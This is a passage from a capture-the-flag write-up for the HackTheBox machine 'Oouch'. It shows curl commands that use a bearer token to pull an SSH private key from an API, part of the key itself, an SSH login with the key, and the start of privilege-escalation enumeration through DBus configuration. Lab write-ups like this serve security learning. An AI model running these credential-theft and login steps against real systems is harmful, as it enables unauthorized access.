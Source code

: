 Now it is possible to enumerate the API for 10 minutes.
If the token runs out, a new one has to be created the same way as before.

One of the notes said, that there is a SSH key to be found so lets try _get_ssh_:
```
curl authorization.oouch.htb:8000/api/get_ssh -H 'Authorization: Bearer mwITwshqJr8HPV3zeHSRnatgQE65VP'
```
```
{
"ssh_server": "consumer.oouch.htb",
"ssh_user": "qtc",
"ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAA
(...)"
}
```

To get the SSH key into the right format, the tool **jq** can be used:
```
curl -s authorization.oouch.htb:8000/api/get_ssh -H 'Authorization: Bearer tf9hVpNVXTZwd2MCc8f9j6An8XuMdc' | jq .ssh_key -r > ssh.key
```

This key can now be used to SSH into the box as the user _qtc_:
```
chmod 600 ssh.key

ssh -i ssh.key qtc@10.10.10.177
```

## Privilege Escalation

In the home directory of _qtc_ is a hidden file called _.note.txt_ with the following text:
```
Implementing an IPS using DBus and iptables == Genius?
```

The acronym IPS stands for **Intrusion Prevention System** and **DBus** is a technology that allows communication between multiple processes running concurrently on the same machine.
So in this case, it probably allows that the web application communicates with **iptables**.

Searching for DBus configuration files:
```
find /etc -type f 2>/dev/null | grep -i dbus
```

The configuration file _/etc/dbus-1/system.d/htb.oouch.Block.conf_ shows that the user _www-data_ is allowed to send and receive connections, but this user does not exist in the _/etc/passwd_ file.

By looking at the interfaces, there is one called _docker0_ which means, that this is a **Docker container**:
```
docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
   link/ether 02:42:51:f0:27:64 brd ff:ff:ff:ff:ff:ff
   inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0

br-a3f2eee8f2e3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
   link/ether 02:42:8e:5d:49:7d brd ff:ff:ff:ff:ff:ff
   inet 172.18.0.1/16 brd 172.18.255.255 scope global br-a3f2eee8f2e3
```
